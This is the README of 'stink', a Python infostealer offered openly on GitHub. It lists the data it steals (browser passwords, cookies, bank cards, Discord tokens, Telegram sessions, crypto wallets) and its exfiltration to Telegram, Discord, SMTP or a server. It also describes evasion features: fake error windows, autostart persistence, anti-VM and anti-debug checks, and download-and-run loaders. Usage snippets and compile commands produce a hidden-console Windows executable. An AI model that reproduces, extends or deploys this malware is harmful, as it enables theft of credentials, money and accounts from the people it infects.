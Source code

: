 # stink

Stealer in just a few lines with sending to Telegram / Server / Discord / SMTP. No dependencies, only built-in libraries.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Description
The `stink` already has an impressive functionality that will only expand.

## Navigation
* [Current features](#Сurrent-features)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
  * [Certain modules](#Certain-modules)
  * [Additional parameters](#Additional-parameters)
* [Creating exe](#Creating-exe)
  * [Creating executable file](#Creating-executable-file)
  * [With BAT](#With-BAT)
  * [With CMD](#With-CMD)

### Current features
1. Support for the following browsers:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
   - Yandex (Partially)
2. Collecting the following data:
   - Screenshot
   - Cookies
   - Passwords
   - Bank cards
   - History
   - Bookmarks
   - IP-address
   - System configuration
   - Active processes
   - Discord tokens
   - Telegram sessions
   - FileZilla hosts
   - Crypto wallets:
       - Metamask
       - Phantom
       - Atomic
       - Exodus
       - Other 10 wallets
   - Steam configs
3. Built-in sending methods: 
   - Telegram
   - Server
   - Discord
   - SMTP
4. Support for browser multiprofiles.
5. Execution in a separate thread.
6. Execution using multiprocessor.
7. Possibility to add to autostart.
8. Showing a window with a fake error.
9. Execution without creating any files.
10. Downloading and launching files by link.
11. Stopping work on virtual machines and when trying to debug.

## Example usage
### Standard
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Certain modules

An example with only system data collection and screenshot.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Additional parameters

- `features` - list of modules from `stink.Features`:

  - `passwords` - collecting passwords.

  - `cookies` - collecting cookies.

  - `cards` - collecting bank cards.

  - `history` - collecting search history.

  - `bookmarks` - collecting bookmarks.

  - `extensions` - collecting browser extensions.

  - `processes` - collecting active processes.

  - `system` - collecting system configuration.

  - `screen` - screenshot.

  - `discord` - collecting Discord tokens.

  - `telegram` - collecting Telegram sessions.

  - `filezilla` - collecting FileZilla hosts.

  - `wallets` - collecting crypto wallets.

  - `steam` - collecting Steam configs.


- `utils` - list of utilities from `stink.Utils`:

  - `autostart` - adding to autostart.

  - `message` - showing a fake [error window](https://github.com/FallenAstaroth/stink/wiki/Fake-error).


- `protectors` - list of protectors from `stink.Protectors`:

  - `processes` - checking processes for presence of debugging programs and virtual machines.

  - `mac_address` - checking MAC addresses for blacklisting.

  - `computer` - checking PC name for blacklisting.

  - `user` - checking username for blacklisting.

  - `hosting` - checking if PC is hosted.

  - `http_simulation` - checking for HTTP simulation.

  - `virtual_machine` - checking for virtual machine.

  - `disable` - complete disabling of all checks.


- `senders` - list of sending methods from `stink.Senders`:

  - `server` - sending to [server](https://github.com/FallenAstaroth/stink/wiki/Server).

  - `telegram` - sending to [Telegram](https://github.com/FallenAstaroth/stink/wiki/Telegram-bot).

  - `discord` - sending to [Discord](https://github.com/FallenAstaroth/stink/wiki/Discord-hook).

  - `smtp` - send to [mail](https://github.com/FallenAstaroth/stink/wiki/Smtp).


- `loaders` - list of file loaders from `stink`:

  - `Loader` - universal [loader](https://github.com/FallenAstaroth/stink/wiki/Files-loader).
  
## Creating exe
Python is an interpreted programming language, so we first translate it into C and then compile it into an .exe file.
We will need Nuitka to do this.

### Creating executable file

1. [Download](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) archive.
2. Unpack the archive and go to the directory stink-master.
3. Create test.py (or any other name) file in the same directory with the following code:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

#### With BAT
1. Run compiler.bat.


#### With CMD
1. Open `cmd`.
2. Type in the command:
```
pip install virtualenv
```
3. Go to the folder with the `test.py` file:
```
cd path\to\file
```
4. Create a virtual environment and activate it:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Install the Nuitka:
```
pip install Nuitka==0.6.16.4
```
6. To reduce the file size, additionally install Zstandard (optional):
```
pip install zstandard==0.17.0
```
7. Write the command:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

After executing the command we get the test.exe file with the hidden console.
